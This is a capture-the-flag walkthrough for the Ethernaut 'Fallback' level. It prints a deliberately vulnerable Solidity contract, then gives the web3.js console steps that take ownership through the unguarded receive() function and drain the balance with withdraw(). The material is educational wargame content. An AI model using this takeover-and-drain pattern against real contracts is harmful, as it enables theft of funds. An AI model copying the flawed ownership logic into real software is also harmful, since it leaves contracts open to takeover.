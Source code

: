 # 2. Fallback

Ethernaut2: [Fallback](https://ethernaut.openzeppelin.com/level/0x2a24869323C0B13Dff24E196Ba072dC790D52479)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

### Goal of this level

* claim ownership of the contract
* reduce its balance to 0

<details>

<summary>Key  for this problem  🔑</summary>

using `recieve` function

</details>

## You must know before

* Sending transactions using `web3.js` **** \
  ****-> see [here](https://stackoverflow.com/questions/52740950/how-to-send-wei-eth-to-contract-address-using-truffle-javascript-test)
* Understanding concept of `fallback()` and `receive()` function \
  \-> see [here](https://www.youtube.com/watch?v=CMVC6Tp9gq4)

## Walkthrough

{% hint style="info" %}
Don't forget!

Not only do we need to claim **ownership** of the contract, but also we have to **reduce** the **balance** of the contract to `0`!\
\
We first will modify the value of`owner` variable, and then we will **drain** the contract.
{% endhint %}

### 1. Claming Ownership

We first have to modify the value of `owner` variable.

Let's see which functions modify `owner` variable.

```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender; // here
}
```

```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; // and here
}
```

#### 1) `contribute()` function

Let's check out `contribute` function first.

To modify the value of `owner` variable, we must contribute more than the original owner did.

Let's check how much he contributed!

```javascript
const owner = await contract.owner();

await contract.contributions(owner).then((v) => v.toString());

// '1000000000000000000000'
```

Wow, `1000 ETH`!

It seems even if we have more than `1000 eth`, we won't be  able to pass the require statement.

Let's check out `receive` function for next.

#### &#x20;&#x20;

#### 2) `receive()` function

`receive()` function is checking if msg.sender sent over `0 wei`  and if he contributed more then `0 wei`.

Seems we can use both to solve the problem!

#### &#x20; &#x20;

#### 3) Let's claim the ownership!

```javascript
// You can send any value between 0 and 0.001 ether
await contract.contribute({ value: 3 });
```

Here we can make our contribution to be bigger than `0`.

Now, let's modify `owner` variable.

```javascript
// Here, since there's no require statement,
// you can send any value bigger than 0.
await contract.sendTransaction({ value: 3 });
```

Because `receive()` function only checks if `msg.value` is bigger than 0 wei and if `msg.sender` contributed more than 0 wei, we can easily satisfy both conditions.

Let's check if it works 😎

```javascript
await contract.owner();
```

&#x20;&#x20;

### 2. Reducing balance of the contract to 0

```solidity
function withdraw() public onlyOwner {
  payable(owner).transfer(address(this).balance);
}
```

Since now we have **ownership** of the contract, we can **withdraw** all the balance of the contract.

```javascript
await contract.withdraw();
```

Let's check if we successfully drained the contract.

```javascript
await web3.eth.getBalance(contract.address); // 0
```

Done! 😎

